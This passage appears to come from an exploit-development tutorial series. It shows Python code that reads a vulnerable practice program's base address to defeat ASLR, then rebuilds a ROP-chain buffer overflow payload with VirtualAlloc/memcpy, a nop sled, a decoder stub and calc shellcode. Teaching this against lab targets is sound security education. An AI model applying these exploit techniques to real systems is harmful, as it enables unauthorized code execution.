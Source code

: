 ```python
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

# Locate the process and retrieve its base address
process_name = "overflow4.exe"
pid = get_pid_by_name(process_name)

if pid:
    print(f"[+] Found {process_name} with PID: {pid}")
    base_addr = get_base_address(pid)
    if base_addr:
        print(f"[+] Base address of {process_name}: {hex(base_addr)}")
    else:
        print(f"[-] Could not retrieve base address for {process_name}.")
else:
    print(f"[-] Process {process_name} not found.")
```

Here is the script in action:

<img width="1145" height="140" alt="image" src="https://github.com/user-attachments/assets/59ac1177-00ca-4eb2-8a84-4144bac3bf62" />

Now that we have a guaranteed way to determine the base address of our vulnerable executable, all that's left is to use our new base_address variable and replace the 140000 we used in parts 1 - 4.  Like so:

```python
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x0018)  # 0x40
payload += struct.pack("<Q", base_addr+0x7678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", base_addr+0x1b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
```

Notice how the original ROP gadget static addresses remain. To reiterate, it's only the 1st half that is randomized.  You still get to use the 2nd half of your ROP gadget fixed addresses.  Cool, so now that we have the base address worked out, we have basically defeated ASLR at this point.  Moving on!

***Executing our buffer overflow Payload***
-

The remainder of this blog post won't be too lengthy as I'm really just regurgitating more or less the same script we used in part 4.  There are some subtle differences here and there but for the most part the general flow and register setup is the same.  I believe I had to adjust the order of collecting each register value as well as the general order of the buffer overflow payload itself.  Here's how the payload is laid out, in order:

- **padding (payload = b"\x41" * 296 )**
- **use ropgadgets for registers and virtualalloc / memcpy**
- **nop sled**
- **decode stub routine**
- **calc shellcode**
